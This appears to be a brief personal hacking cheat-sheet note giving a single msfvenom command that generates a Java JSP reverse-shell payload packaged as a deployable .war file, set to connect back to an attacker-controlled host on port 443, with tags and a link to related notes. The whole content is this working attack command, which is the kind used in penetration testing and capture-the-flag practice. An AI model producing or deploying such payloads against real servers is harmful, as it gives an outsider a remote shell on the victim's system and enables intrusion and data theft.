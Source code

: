 # MSFVENOM Java Server Pages (.jsp) As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

# References
- [20221003150760](/zet/20221003150760/README.md) MSFVENOM Java Server Pages (.jsp)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
